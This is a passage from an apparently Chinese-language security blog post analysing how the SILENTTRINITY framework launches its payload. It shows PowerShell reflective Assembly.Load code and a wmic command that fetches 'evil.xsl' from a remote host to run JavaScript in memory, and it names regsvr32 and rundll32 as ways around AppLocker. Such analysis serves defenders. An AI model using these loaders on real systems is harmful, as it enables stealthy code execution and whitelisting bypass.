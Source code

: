 同样是将加密字符串做base64解码，解密出SILENTTRINITY，最终在内存中加载(Powershell实现)，关键代码如下：

```
$asm = [Reflection.Assembly]::Load($UncompressedFileBytes)
$type = $asm.GetType("ST")
$main = $type.GetMethod("Main")
```

表示加载exe中Main下的ST方法


这个利用方法我在之前的文章有过利用分析：

[《利用Assembly Load & LoadFile绕过Applocker的分析总结》](https://3gstudent.github.io/3gstudent.github.io/%E5%88%A9%E7%94%A8Assembly-Load-&-LoadFile%E7%BB%95%E8%BF%87Applocker%E7%9A%84%E5%88%86%E6%9E%90%E6%80%BB%E7%BB%93/)

#### 3. wmic

启动方式：

```
C:\Windows\System32\wbem\WMIC.exe os get /format:"evil.xsl"
```

或者

```
C:\Windows\System32\wbem\WMIC.exe os get /format:"https://example.com/evil.xsl"
```

流程：

`wmic.exe`->`.xsl`->`javascript`

通过wmic.exe加载wmic.xsl，wmic.xsl可以放在本地，也可以放在远程服务器

同样是将加密字符串做base64解码，解密出SILENTTRINITY，最终在内存中加载(JavaScript实现)


这个利用方法我在之前的文章有过利用分析：

[《利用wmic调用xsl文件的分析与利用》](https://3gstudent.github.io/3gstudent.github.io/%E5%88%A9%E7%94%A8wmic%E8%B0%83%E7%94%A8xsl%E6%96%87%E4%BB%B6%E7%9A%84%E5%88%86%E6%9E%90%E4%B8%8E%E5%88%A9%E7%94%A8/)

#### 4. 其他可供利用的方法

SILENTTRINITY未包括，此处作为扩展，例如：

- regsvr32.exe，《Code Execution of Regsvr32.exe》
- rundll32.exe，[《关于利用rundll32执行程序的分析》](https://3gstudent.github.io/3gstudent.github.io/%E5%85%B3%E4%BA%8E%E5%88%A9%E7%94%A8rundll32%E6%89%A7%E8%A1%8C%E7%A8%8B%E5%BA%8F%E7%9A%84%E5%88%86%E6%9E%90/)



## 0x04 C#利用IronPython调用Python的方法
---

需要使用IronPython，参考资料：

https://ironpython.net/
